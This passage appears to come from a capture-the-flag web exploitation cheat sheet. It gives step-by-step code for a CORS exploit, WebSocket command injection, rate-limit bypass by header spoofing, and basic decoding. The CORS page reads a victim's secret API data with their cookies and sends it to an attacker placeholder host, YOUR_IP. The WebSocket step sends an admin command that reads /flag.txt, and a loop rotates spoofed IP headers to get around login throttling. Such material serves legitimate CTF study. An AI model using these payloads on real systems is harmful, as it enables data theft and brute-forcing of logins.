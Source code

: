 ```html
<!-- Exploit CORS -->
<!DOCTYPE html>
<html>
<script>
  fetch('http://target.com/api/secret', {
    credentials: 'include'
  })
  .then(r => r.text())
  .then(data => {
    fetch('http://YOUR_IP:8000/?data=' + btoa(data));
  });
</script>
</html>
```

### Step 9.4: WebSocket Attacks
```javascript
// Connect via browser console
let ws = new WebSocket('ws://target.com/socket');

ws.onmessage = function(event) {
  console.log('Received:', event.data);
};

// Send malicious payload
ws.send('{"action":"admin","cmd":"cat /flag.txt"}');
```

### Step 9.5: API Rate Limit Bypass
```bash
# Add headers to bypass rate limit
curl $TARGET/api/login -d "user=admin&pass=test" \
  -H "X-Forwarded-For: 1.2.3.4" \
  -H "X-Originating-IP: 1.2.3.4" \
  -H "X-Remote-IP: 1.2.3.4" \
  -H "X-Client-IP: 1.2.3.4"

# Rotate IPs in script
for i in {1..255}; do
  curl -H "X-Forwarded-For: 1.1.1.$i" $TARGET/api/endpoint
done
```

---

## 10. Crypto & Encoding {#10-crypto-encoding}

### Step 10.1: Identify Encoding
```bash
# Base64
echo "ZmxhZ3tleGFtcGxlfQ==" | base64 -d

# Hex
echo "666c61677b6578616d706c657d" | xxd -r -p

# ROT13
echo "synt{rknzcyr}" | tr 'A-Za-z' 'N-ZA-Mn-za-m'

# URL encoding
echo "flag%7Bexample%7D" | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read()))"
```
